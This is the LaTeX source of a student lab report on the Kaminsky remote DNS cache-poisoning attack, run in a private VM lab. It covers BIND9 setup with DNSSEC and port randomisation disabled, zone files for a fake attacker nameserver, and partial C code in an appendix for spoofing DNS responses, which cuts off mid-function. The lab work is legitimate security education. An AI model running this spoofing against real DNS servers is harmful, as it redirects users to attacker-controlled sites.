%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usetikzlibrary{arrows}
\newcommand{\midarrow}{\tikz \draw[-triangle 90] (0,0) -- +(.1,0);}
\pgfdeclarelayer{bg}    % declare background layer
\pgfsetlayers{bg,main}  % set the order of the layers (main is the standard layer)
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usetikzlibrary{shapes}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}
\usepackage{footmisc}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3cm,
	top=3cm,
	bottom=3cm
}



\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4921\\ Supervised Independent Study II\\
			\vspace*{4em}
			\LARGE
			\textbf{Remote DNS Attack}\\		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2018/19
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
	The Domain Name System (DNS) is used to translate hostnames to IP addresses. This process is termed as DNS resolution, which is transparent to users. However, there are attacks that can be mounted against the DNS resolution process which can redirect the user away from a legitimate to a malicious site, also known as DNS Pharming attacks. However, this is not applicable if the attacker and the server are on different networks, as packet sniffing is not possible. Instead, Kaminsky DNS attack is performed and can be used to spoof DNS requests by attempting to send a packet with a valid transaction ID ($\frac{1}{65536}$ chance).
\section{Overview}
This lab will focus on the Kaminsky DNS attack, by poisoning the DNS cache of the server using a remote machine in the first task. The second task will focus on verification of the attack, by setting up a domain name and using the command \texttt{dig} on the user's machine to check whether the attack mounted previously was successfully executed.\\\\To understand how the Kaminsky's attack works, we need to first understand how the entire DNS architecture operates. The domain \texttt{www.ntu.edu.sg} is used as an example. When a query is sent to our DNS server and it does not have the information in its cache, it will query the root DNS server. The root DNS server will respond by getting our DNS server to query the \texttt{.SG} DNS server. Querying the \texttt{.SG} DNS server will send a reply for our DNS server to query the \texttt{.edu.sg} DNS server. This process continues recursively until there are no sub-level domains to query. The final DNS server, in this case \texttt{ntu.edu.sg} will reply our DNS server with the IP address to \texttt{www.ntu.edu.sg} by transmitting the stored A record. Figure \ref{fig:DNSArch} depicts the process in a simpler and cleaner form that is easier to understand.

%Figure for DNS record querying


\begin{figure}[H]
	\centering
	\tikzset{>=stealth'}
	
\begin{tikzpicture}
	
	\draw[fill=red!10] (-5.15,2.15) rectangle (-3.85,1.25);
	\draw (-5.3,2.3) rectangle (-3.7,1.1);
	\draw (-4.1,1.1) rectangle (-4.9,0.6);
	\draw (-5.1,0.75) -- (-5.5,0.4);
	\draw (-3.9,0.75) -- (-3.5,0.4);
	\draw (-5.5,0.4) -- (-3.5,0.4);
	\draw (-5.1,0.75) -- (-4.9,0.75);
	\draw (-3.9,0.75) -- (-4.1,0.75);
	\draw (-4.5,-0.3) node[text width=3cm, align=center]{Attacker};
	
	\draw[rounded corners=8pt] (-6,2.85) rectangle (-3,-0.7);
	\draw (-5,-1) node[align=left]{Network 1};
	
	\draw[fill=green!10] (-5.15,-2.35) rectangle (-3.85,-4.15);
	\draw (-5.3,-2.2) rectangle (-3.7,-4.3);		
	\draw (-4.1,-4.3) rectangle (-4.9,-4.8);
	\draw (-5.1,-4.65) -- (-5.5,-5);
	\draw (-3.9,-4.65) -- (-3.5,-5);
	\draw (-5.5,-5) -- (-3.5,-5);
	\draw (-5.1,-4.65) -- (-4.9,-4.65);
	\draw (-3.9,-4.65) -- (-4.1,-4.65);
	\draw (-4.5,-5.7) node[text width=3cm, align=center]{DNS Server};
	
	\draw[rounded corners=8pt] (-6,-1.65) rectangle (-3,-6.1);
	\draw (-5,-6.4) node[align=left]{Network 2};	
	
	\draw [rounded corners=8pt] (2,2.6) rectangle node[text width=3cm, align=center]{Root\\DNS Server} (4.8, 0.9);
	\draw [rounded corners=8pt] (2,0.25) rectangle node[text width=3cm, align=center]{\texttt{.SG}\\DNS Server} (4.8, -1.25);
	\draw [rounded corners=8pt] (2,-1.95) rectangle node[text width=3cm, align=center]{\texttt{edu.sg}\\DNS Server} (4.8, -3.55);
	\draw [rounded corners=8pt] (2,-4.2) rectangle node[text width=3cm, align=center]{\texttt{ntu.edu.sg}\\DNS Server} (4.8, -5.8);
	
	\draw[rounded corners=8pt] (1.5,2.9) rectangle (5.3,-6.1);
	\draw (2.35,-6.4) node[align=left]{Internet};
	
	\draw[->,bend left=65,line width=0.2mm](-3.7,1.9) to (-3.7,-2.6);
	\draw[<-,bend left=65,line width=0.2mm](-3.7,1.5) to (-3.7,-2.4);
	\draw[->,line width=0.2mm](-3.7,-2.8) to (2,1.95);
	\draw[<-,line width=0.2mm](-3.7,-3) to (2,1.75);
	\draw[->,line width=0.2mm](-3.7,-3.2) to (2,-0.45);
	\draw[<-,line width=0.2mm](-3.7,-3.4) to (2,-0.65);
	\draw[->,line width=0.2mm](-3.7,-3.6) to (2,-2.65);
	\draw[<-,line width=0.2mm](-3.7,-3.8) to (2,-2.85);
	\draw[->,line width=0.2mm](-3.7,-4) to (2,-4.9);
	\draw[<-,line width=0.2mm](-3.7,-4.2) to (2,-5.1);
	
	
	\draw (-2.15,0.2) node{\circled{1}};
	\draw (-0.3,0.5) node{\circled{2}};
	\draw (-0.3,-0.7) node{\circled{3}};
	\draw (-0.85,-1.43) node {\circled{4}};
	\draw (-0.7,-2.4) node {\circled{5}};
	\draw (0.3,-2.55) node {\circled{6}};
	\draw (0.3,-3.52) node {\circled{7}};
	\draw (-0.3,-4.14) node {\circled{8}};
	\draw (-0.3,-5.11) node {\circled{9}};
	\draw (-3.2,-1.2) node {\circled{10}};
	\end{tikzpicture}
	
	\begin{flushleft}
		\circled{1} The attacker queries \texttt{www.ntu.edu.sg} to our DNS Server\\
		\circled{2} The query is forwarded to the root DNS Server\\
		\circled{3} Answer gets our DNS Server to query the \texttt{.SG} DNS Server\\
		\circled{4} The query is forwarded to the \texttt{.SG} DNS Server\\
		\circled{5} Answer gets our DNS Server to query the \texttt{edu.sg} DNS Server\\
		\circled{6} The query is forwarded to the \texttt{edu.sg} DNS Server\\
		\circled{7} Answer gets our DNS Server to query the \texttt{ntu.edu.sg} DNS Server\\
		\circled{8} The query is forwarded to the \texttt{ntu.edu.sg} DNS Server\\
		\circled{9} Answer provides our DNS Server with the IP address for \texttt{www.ntu.edu.sg}\\
		\circled{10} The IP address is forwarded back to the attacker\\
	\end{flushleft}
	\centering
	
	\caption{Complete DNS Querying Process}
	\label{fig:DNSArch}
\end{figure}
\noindent It is during step \circled{2} -- \circled{9} where the packets with spoofed transaction IDs are sent out, with the hope that one of the packets that has a matching transaction ID will be accepted. If that happens, then the attacker has the opportunity to redirect the domain resources to the address of the attacker's choosing. This could redirect users to malicious sites without the user's knowledge as the domain names will remain the same.
\newpage
\section{Attack Sequence}
\subsection{Virtual Machine (VM) Preparation}
\subsubsection{Network Setup}\begin{par}
In the following lab, 3 VMs are configured in the layout shown in Figure \ref{fig:Networksetup}. The figure also displays how a local network is connected to the wider internet and how domains are resolved.\end{par}
\begin{figure}[H]
			\centering
			
\begin{tikzpicture}
			\draw[fill=green!10] (-1.05,2.15) rectangle (0.25,1.25);
			\draw (-1.2,2.3) rectangle (0.4,1.1);
			\draw (0,1.1) rectangle (-0.8,0.6);
			\draw (-1,0.75) -- (-1.4,0.4);
			\draw (0.2,0.75) -- (0.6,0.4);
			\draw (-1.4,0.4) -- (0.6,0.4);
			\draw (-1,0.75) -- (-0.8,0.75);
			\draw (0.2,0.75) -- (0,0.75);
			\draw (-0.4,-0.3) node[text width=3cm,align=center]{DNS Server\\192.168.43.157};
			
			
			\draw[fill=blue!10] (-5.15,2.15) rectangle (-3.85,1.25);
			\draw (-5.3,2.3) rectangle (-3.7,1.1);
			\draw (-4.1,1.1) rectangle (-4.9,0.6);
			\draw (-5.1,0.75) -- (-5.5,0.4);
			\draw (-3.9,0.75) -- (-3.5,0.4);
			\draw (-5.5,0.4) -- (-3.5,0.4);
			\draw (-5.1,0.75) -- (-4.9,0.75);
			\draw (-3.9,0.75) -- (-4.1,0.75);
			\draw (-4.5,-0.3) node[text width=3cm, align=center]{User\\192.168.43.154};
			
				\draw[fill=red!10] (3.05,2.15) rectangle (4.35,1.25);
			\draw (2.9,2.3) rectangle (4.5,1.1);
			\draw (4.1,1.1) rectangle (3.3,0.6);
			\draw (3.1,0.75) -- (2.7,0.4);
			\draw (4.3,0.75) -- (4.7,0.4);
			\draw (2.7,0.4) -- (4.7,0.4);
			\draw (3.1,0.75) -- (3.3,0.75);
			\draw (4.3,0.75) -- (4.1,0.75);
			\draw (3.64 ,-0.57) node[text width=4.5cm, align=center]{Attacker\\(Assume Isolated)\\192.168.43.156};
			
			\draw (3.7,-1.31) -- (3.7,-2.4);
			\draw (-4.5,-0.8) -- (-4.5,-2.4);
			\draw (-0.4,-0.8) -- (-0.4,-3.7);
			\draw (3.7,-2.4) -- (0.4,-3.95);
			\draw (-4.5,-2.4)--(-1.2,-3.95);
			\draw[densely dotted, line width=0.3mm](-4.5,-1.5) -- (-0.4,-1.5);
			
			
			\draw[fill=yellow!10] (-1.05,-3.85) rectangle (0.25,-4.75);
			\draw (-1.2,-3.7) rectangle (0.4,-4.9);
			\draw (0,-4.9) rectangle (-0.8,-5.4);
			\draw (-1,-5.25) -- (-1.4,-5.6);
			\draw (0.2,-5.25) -- (0.6,-5.6);
			\draw (-1.4,-5.6) -- (0.6,-5.6);
			\draw (-1,-5.25) -- (-0.8,-5.25);
			\draw (0.2,-5.25) -- (0,-5.25);
			\draw (-0.4,-6.3) node[text width=3cm,align=center]{Gateway\\192.168.43.2};
			
			\draw[rounded corners=8pt] (-6,2.65) rectangle (5.3,-7.1);
			
			\draw[<->,>=stealth',line width=0.5mm] (-0.3,-6.76) -- (-0.3, -8.7);
			
			\draw[rounded corners=8pt] (-6,-8.7) rectangle (5.3,-11.2);
			
			\draw (-3.4,-7.5) node[align=left]{Local Area Network (LAN)};
			\draw (-5.14,-8.35) node[align=left]{Internet};
			
			\draw [rounded corners=8pt] (-5.5,-9.2) rectangle node[text width=3cm, align=center]{Root\\DNS Server} (-2.4, -10.7);
			\draw [rounded corners=8pt] (-1.9,-9.2) rectangle node[text width=3cm, align=center]{\texttt{.COM}\\DNS Server} (1.2, -10.7);
			\draw [rounded corners=8pt] (1.7,-9.2) rectangle node[text width=3cm, align=center]{\texttt{example.com}\\DNS Server} (4.8, -10.7);
				\end{tikzpicture}
			\caption{Network Topology}
			\label{fig:Networksetup}
		\end{figure}
		\subsubsection{Installing DNS server}
		\begin{par} The DNS server that will be used on Ubuntu is \texttt{BIND9} and can be installed using the following line.
		\end{par}
		\begin{verbatim}
		$ sudo apt-get install bind9
		\end{verbatim}
		\subsubsection{Creating domain configuration files}
		\begin{par}
		For the DNS server to function, the configuration file \texttt{named.conf} needs to be present and reads additional files such as \texttt{named.conf.options}, all located in the folder \texttt{/etc/bind/}. The following lines are added so that the DNS server's cache dump can be read.
		\end{par}
		\begin{verbatim}
		options {
		    dump-file    "/var/cache/bind/dump.db";
		};
		\end{verbatim}
		\subsubsection{Starting the DNS server}
		To start the \texttt{BIND9} DNS server, the following command is executed in Terminal.		\begin{verbatim}
		$sudo service bind9 restart
		\end{verbatim}
		\subsubsection{Configuring User Machine}
		\begin{par}
		On the user's machine, the default DNS server needs to be amended. This is done by changing the \texttt{resolv.conf} file. The following single line is added to the file.\end{par} 
		\begin{verbatim}
		nameserver 192.168.43.157 #IP address of server just setup
		\end{verbatim}
		\begin{par}
		\noindent Additionally, the changes made might be overwritten by the DHCP client and needs to be avoided to complete the lab properly. To do so, the DNS server address on our wired connection (Under IPv4 settings) is manually and explicitly defined. To refresh the connection and ensure that the changes take effect immediately, the name of our connection ``Wired connection 1" is clicked to force refresh the network.
		\end{par}
		\subsection{Kaminsky Attack}
		When using the local DNS attack method, it is much simpler as the packets originating from the user or the server can be sniffed easily. However, on a remote network this is not possible. Furthermore, querying a domain will effectively make the results cached onto the server, which will require a period of time before the cache expires (usually 48 hours). This method is ineffective due to the long periods of waiting.\\\\Kaminsky developed an attack that is more effective against systems on remote networks. As the transaction ID on the packet only allows for 65536 values, it is not impractical to flood the server with all 65536 packets. The limitation of blindly flooding the server is that the packet with the legitimate response and valid transaction ID may be received before the spoofed packet with the valid transaction ID may be sent. In this instance, the DNS attack will still fail as the entry from the legitimate response will be successfully cached.\\\\This method was further extended to query sub-domains, as infinitely many sub-domains can be created. Since the query results for the sub-domains do not exist, the DNS server must query everytime it receives a request for each sub-domain. This provides another window and defeats the caching effect.\\\\In the event the transaction ID of the spoofed packet is accepted by the DNS server, the nameserver mentioned in the packet will be cached. At this stage, the DNS cache has been poisoned.
		\\\\To prepare the Kaminsky attack, further configuration is required on the user and DNS server VM.
		\begin{enumerate}
			\itemsep0em
			\item All 3 VM must have its network adapter set to ``NAT'' or Network Address Translation.
			\item For simplicity in this lab, source port randomisation is turned off and set to \textbf{33333}. Source port randomisation makes it more difficult to guess the originating source port of the packet. The file \texttt{/etc/bind/named.conf.options} is modified with the following line.
			\begin{verbatim}
			query-source port 33333
			\end{verbatim}
			\item DNS servers now have an added protection scheme called \textit{DNSSEC (Domain Name Security Extensions)} DNSSEC works on the basis of using digital signatures and standard algorithms such as RSA and ECC as well as using absolute timestamps to ensure the validity of the responses. This method was implemented to solve the problem of forged and manipulated DNS data, such as by the DNS cache poisoning attack.\\\\To turn this feature off, the file \texttt{/etc/bind/named.conf.options} is again modified.
			\begin{verbatim}
			//dnssec-validation auto;
			  dnssec-enable no;
			\end{verbatim}
			\item The last step involves flushing the cache and restarting the DNS server, which can be accomplished with the following code.
			\begin{verbatim}
			$ sudo rndc flush
			$ sudo service bind9 restart
			\end{verbatim}
		\end{enumerate}
		To ensure the attack is successful, the attacker needs to send DNS queries to the DNS server using random hostnames. After each query is sent out, large numbers of DNS response packets are sent out within a short timeframe and hoping that a packet with the correct transaction ID is accepted before the actual response is received.\\\\Before executing the attack, a sample code file \texttt{udp.c} has been provided with missing information to be filled up. The completed code, together with the information for selected blocks has been explained in \hyperref[AppA]{Appendix A}.
		\\\\To create a working program from the completed code, the file is compiled using \texttt{gcc} with the \texttt{lpcap} switch defined.
		\begin{verbatim}
		$ gcc -lpcap udp.c -o attack
		\end{verbatim}
		The attack may take several executions before the execution of the query reflects the malicious nameserver. To analyse whether the attack was successful, the cache is dumped into a database and the required components are extracted out to be printed on the screen.
		\begin{verbatim}
		$ sudo rndc dumpdb -cache
		$ sudo cat /var/cache/bind/dump.db | grep att
		\end{verbatim}
		Successful execution of the attack program will result in a printed line containing the nameserver \texttt{ns.dnslabattacker.net}. Looking further into the actual database itself, it can be seen that the malicious nameserver has been added as an authority for the domain \texttt{example.com}.
		\begin{figure}[H]
		\centering
		\includegraphics[width=0.7\linewidth]{dbdump2}
		\caption{Poisoned DNS Cache}
		\label{fig:dbdump2}
		\end{figure}
		\subsection{Result Verification}
		When performing the DNS query on the domain \texttt{example.com}, it can be noticed that the nameserver is stated. However, nameserver will be marked invalid as the zone to receive queries is not set-up to respond. Due to this, there is no valid record for the domain.\\\\To resolve this issue, a zone record is created on the server itself (so it does not need to send requests to the internet to obtain the IP address). To do so, the following configurations need to be made:
		\begin{enumerate}
		\itemsep0em
		\item The file \texttt{/etc/bind/named.conf.default-zones} has the following lines added to it.
		\begin{verbatim}
		zone "ns.dnslabattacker.net" {
		    type master;
		    file "/etc/bind/db.attacker";
		};
		\end{verbatim}
		\item The file \texttt{/etc/bind/db.attacker} is created to hold the resource records required to redirect the DNS queries to the malicious DNS server.
		\begin{verbatim}
		$TTL 604800
		@        IN    SOA    localhost. root.localhost. (
		         2; serial
		         604800; refresh
		         86400;retry
		         2419200; expire
		         604800); negative cache TTL
		         
		@        IN    NS    ns.dnslabattacker.net.
		@        IN    A     192.168.43.157
		@        IN    AAAA  ::1
		\end{verbatim}
		\item Because the attacker's system will also receive DNS queries, it too must also be configured with the relevant zone to reply the queries. In the file \texttt{/etc/bind/named.conf.local}, the following lines are added.
		\begin{verbatim}
		zone "example.com"{
		        type master;
		        file "/etc/bind/example.com.db";
		};
		\end{verbatim}
		Another file \texttt{/etc/bind/example.com.db} must also be created.
		\begin{verbatim}
		$TTL 3D
		@        IN    SOA    ns.example.com. admin.example.com. (
		         2008111001
		         8H
		         2H
		         4W
		         1D)
		
		@        IN    NS    ns.dnslabattacker.net.
		@        IN    MX    10 mail.example.com.
		
		www      IN    A     1.2.3.4
		mail     IN    A     5.6.7.8
		*.example.com  IN  A 9.10.11.12
		\end{verbatim}
		After the files have been modified, the \texttt{bind9} service must be restarted for the changes to take effect. To do so, the following line can be used to restart the server.
		\begin{verbatim}
		$ sudo service bind9 restart
		\end{verbatim}
		\end{enumerate}
		The same attack program is executed now and if the attack is successful, the IP address 1.2.3.4 will appear when the domain \texttt{www.example.com} is queried.
		
\begin{figure}[H]
\centering
\includegraphics[width=0.7\linewidth]{poisonsuccess}
\caption{Complete Cache Poisoning}
\label{fig:poisonsuccess}
\end{figure}

		
	\newgeometry{left=2cm,top=1cm, bottom=2cm}
		\section{Appendix A: \texttt{udp.c}}
		\subsection{Code}
		\label{AppA}
		
		\begin{minted}[linenos,breaklines]{C}
// ----udp.c------
// This sample program must be run with root privileges!
//
// The program is to spoof tons of different queries to the victim.
// Use wireshark to study the packets. However, it is not enough for
// the lab, please finish the response packet and complete the task.
//
// Compile command:
// gcc -lpcap udp.c -o udp
//
//

#include <unistd.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <fcntl.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>
#include <libnet.h>
// The packet length

#define PCKT_LEN 8192
#define FLAG_R 0x8400
#define FLAG_Q 0x0100

// Can create separate header file (.h) for all headers' structure

// The IP header's structure

struct ipheader
{
    unsigned char      iph_ihl:4, iph_ver:4;
    unsigned char      iph_tos;
    unsigned short int iph_len;
    unsigned short int iph_ident;

//    unsigned char      iph_flag;

    unsigned short int iph_offset;
    unsigned char      iph_ttl;
    unsigned char      iph_protocol;
    unsigned short int iph_chksum;
    unsigned int       iph_sourceip;
    unsigned int       iph_destip;

};

// UDP header's structure

struct udpheader
{
    unsigned short int udph_srcport;
    unsigned short int udph_destport;
    unsigned short int udph_len;
    unsigned short int udph_chksum;
};
struct dnsheader
{
    unsigned short int query_id;
    unsigned short int flags;
    unsigned short int QDCOUNT;
    unsigned short int ANCOUNT;
    unsigned short int NSCOUNT;
    unsigned short int ARCOUNT;
};
// This structure is just for convenience, as 4 byte data often appears in the DNS packets.
struct dataEnd
{
    unsigned short int  type;
    unsigned short int  class;
};
// total udp header length: 8 bytes (=64 bits)


// (Added) Structure to hold the answer end section
struct ansEnd
{
    //char* name;
    unsigned short int type;
    //char* type;
    unsigned short int class;
    //char* class;
    //unsigned int ttl;
    unsigned short int ttl_l;
    unsigned short int ttl_h;
    unsigned short int datalen;
};

// (Added) structure to hold the authorative nameserver end section
struct nsEnd
{
    //char* name;
    unsigned short int type;
    unsigned short int class;
    //unsigned int ttl;
    unsigned short int ttl_l;
    unsigned short int ttl_h;
    unsigned short int datalen;
    //unsigned int ns;
};

unsigned int checksum(uint16_t *usBuff, int isize)
{
    unsigned int cksum=0;
    for(; isize>1; isize-=2)
    {
        cksum+=*usBuff++;
    }
    if(isize==1)
    {
        cksum+=*(uint16_t *)usBuff;
    }
    return (cksum);
}

// calculate udp checksum
uint16_t check_udp_sum(uint8_t *buffer, int len)
{
    unsigned long sum=0;
    struct ipheader *tempI=(struct ipheader *)(buffer);
    struct udpheader *tempH=(struct udpheader *)(buffer+sizeof(struct ipheader));
    struct dnsheader *tempD=(struct dnsheader *)(buffer+sizeof(struct ipheader)+sizeof(struct udpheader));
    tempH->udph_chksum=0;
    sum=checksum( (uint16_t *)   &(tempI->iph_sourceip),8 );
    sum+=checksum((uint16_t *) tempH,len);

    sum+=ntohs(IPPROTO_UDP+len);

    sum=(sum>>16)+(sum & 0x0000ffff);
    sum+=(sum>>16);

    return (uint16_t)(~sum);
}
// Function for checksum calculation. From the RFC,

// the checksum algorithm is:
//  "The checksum field is the 16 bit one's complement of the one's
//  complement sum of all 16 bit words in the header.  For purposes of
//  computing the checksum, the value of the checksum field is zero."

unsigned short csum(unsigned short *buf, int nwords)
{
    unsigned long sum;
    for(sum=0; nwords>0; nwords--)
        sum += *buf++;
    sum = (sum >> 16) + (sum &0xffff);
    sum += (sum >> 16);
    return (unsigned short)(~sum);
}

// (Added) Create response packet

int response(char* request_url, char* src_addr, char* dest_addr)
{

// socket descriptor
    int sd;

// buffer to hold the packet
    char buffer[PCKT_LEN];

// set the buffer to 0 for all bytes
    memset(buffer, 0, PCKT_LEN);

// Our own headers' structures
    struct ipheader *ip = (struct ipheader *) buffer;
    struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));
    struct dnsheader *dns=(struct dnsheader*) (buffer +sizeof(struct ipheader)+sizeof(struct udpheader));

// Data is the pointer that points to the first byte of the DNS payload
    char *data=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader));


////////////////////////////////////////////////////////////////////////
// dns fields(UDP payload field)
// relate to the lab, you can change them. begin:
////////////////////////////////////////////////////////////////////////

//The flag you need to set

    dns->flags=htons(FLAG_R); //Response

//only 1 query, so the count should be one.
    dns->QDCOUNT=htons(1);
    dns->ANCOUNT=htons(1);
    dns->NSCOUNT=htons(1);
    dns->ARCOUNT=htons(1);

//query string
    strcpy(data,request_url);
    int length=strlen(data)+1;

//This is more convenient to write the 4bytes in a more organised way.

    struct dataEnd * end=(struct dataEnd *)(data+length);
    end->type=htons(1);
    end->class=htons(1);
    
//add the answer section here
    char *ans=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length);

